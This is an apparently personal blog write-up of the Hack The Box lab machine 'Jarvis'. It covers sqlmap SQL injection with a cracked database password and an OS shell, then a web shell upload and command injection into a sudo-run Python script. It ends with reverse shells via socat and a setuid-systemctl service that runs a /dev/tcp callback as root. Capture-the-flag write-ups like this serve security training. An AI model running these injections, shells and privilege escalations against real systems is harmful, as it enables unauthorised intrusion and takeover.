 ```yaml
---
layout: post
title:  "HTB - Jarvis"
date:   2019-09-07 20:00 +0100
tags: writeups
---
```

Link: https://www.hackthebox.eu/home/machines/profile/194
IP: 10.10.10.143

<!--more-->

## Recon
nmap reveals a very limited port selection:
```
22/tcp    open     ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp    open     http    Apache httpd 2.4.25 ((Debian))
5355/tcp  filtered llmnr
64999/tcp open     http    Apache httpd 2.4.25 ((Debian))
```

The web page on port 80 is a php site with not much at the first glance.  
On port 64999 you'll get a blank page with "Hey you have been banned for 90 seconds, don't be bad" on the first call. Interesting.  
Let's get the gobuster warmed up!

## Gobuster port 80
```
/images (Status: 301)
/index.php (Status: 200)
/nav.php (Status: 200)
/footer.php (Status: 200)
/back.php (Status: 200)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/phpmyadmin (Status: 301)
/connection.php (Status: 200)
/room.php (Status: 302)
/sass (Status: 301)
/server-status (Status: 403)
```

Huh. The site reacts weird if you play around with the Room Booking (http://10.10.10.143/room.php?cod=1) soooo... sqlmap to the rescue!


## SQLMap all ze things!

`sqlmap -u http://10.10.10.143/room.php?cod=2 --dump`

That works like a charm. So let's see if we can dump passwords from the db :3  

`sqlmap -u http://10.10.10.143/room.php?cod=2 --passwords` aaaaaaand success!  

```
[10:43:12] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9.0 (stretch)
web application technology: PHP, Apache 2.4.25
back-end DBMS: MySQL >= 5.0.12
[10:43:12] [INFO] fetching database users password hashes
[10:43:12] [INFO] used SQL query returns 1 entry
[10:43:12] [INFO] used SQL query returns 1 entry
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[10:43:18] [INFO] writing hashes to a temporary file '/tmp/sqlmapQV5_6528897/sqlmaphashes-wQNuZc.txt' 
do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] y
[10:43:22] [INFO] using hash method 'mysql_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 2
what's the custom dictionary's location?
> /usr/share/wordlists/rockyou.txt
[10:44:00] [INFO] using custom dictionary
[10:44:04] [INFO] starting dictionary-based cracking (mysql_passwd)
[10:44:04] [INFO] starting 2 processes 
[10:44:04] [INFO] cracked password 'imissyou' for user 'DBadmin'                                                                                                     
[10:45:16] [INFO] current status: nutju... -^C
[10:45:16] [WARNING] user aborted during dictionary-based attack phase (Ctrl+C was pressed)
database management system users password hashes:                                                                                                                    
[*] DBadmin [1]:
    password hash: *2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
    clear-text password: imissyou
```
So with that, we could log in into the phpMyAdmin, right? But wait, sqlmap can do so much more.  
`sqlmap -u http://10.10.10.143/room.php?cod=2 --os-shell`  
aaaaand we got ourselves a shell as `www-data`. By looking around a bit, we learn that the target user is named `pepper`.  
Also, there's an interesting script in `/var/www/Admin-Utilities`, it's `simpler.py`.  
Let's get that file:  
`sqlmap -u http://10.10.10.143/room.php?cod=2 --file-read=/var/www/Admin-Utilities/simpler.py`
Looks like the script does something in the user home. I wonder if there's some sudo config that allows me to run it as user?
`sqlmap -u http://10.10.10.143/room.php?cod=2 --os-cmd="sudo -l"`  
```
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
```
And we're reaching the limits of the sqlmap console, because to do something interesting with the Python script,  
we need an interactive session. So fire up a python http server and wget the `apalaxsh.php` from this dir to `www-data`.  
Fire up nc with `nc -nvlp 9999`, open your browser and point it to `/apalaxsh.php` and voila - shell.  

## Road to user
Now we can play around with the full script as user pepper:  
`sudo --user=pepper /var/www/Admin-Utilities/simpler.py`  

This [article on Infoblox Shell Escape](https://packetstormsecurity.com/files/144749/Infoblox-NetMRI-7.1.4-Shell-Escape-Privilege-Escalation.html) provides some ideas on how to escape via sudo/ping:  

```
$ sudo --user=pepper /var/www/Admin-Utilities/simpler.py -p

Enter an IP: $(cat /home/pepper/user.txt)

ping: 2afa36c4f05b37b34259c93551f5c44f: Temporary failure in name resolution
```

but not only that. By upgrading the shell to a full interactive shell first (`python -c 'import pty; pty.spawn("/bin/sh")'`),  
we're able to spawn a shell as pepper:  
```
sudo --user=pepper /var/www/Admin-Utilities/simpler.py -p

Enter an IP: $(/bin/bash)
$(/bin/bash)
pepper@jarvis:/$ ^^
```
This shell isn't perfectly working, so we're upgrading to a full reverse shell. Fire up nc on port 8989 and  
`socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.15.195:8989`
So let's continue. 


## Road to root  
So by poking around we find that systemctl has the SETUID bit set. That means that it runs under root!  
We could pin together a systemctl oneshot service to reverse shell out as root...  
```
[Unit]
Description=Black magic happening, avert your eyes

[Service]
RemainAfterExit=yes
Type=simple
ExecStart=/bin/bash -c "exec 5<>/dev/tcp/10.10.15.195/8888; cat <&5 | while read line; do $line 2>&5 >&5; done"

[Install]
WantedBy=default.target
```
Then make use of systemctl link to link the service file into the correct position:  
`systemctl link /home/pepper/apalax.service`
 and enable it, therefore opening the connection to port 8888 on our Machine:  
`systemctl start --now apalax`  

The shell's ugly but it works. `cat /root/root.txt` works like a charm.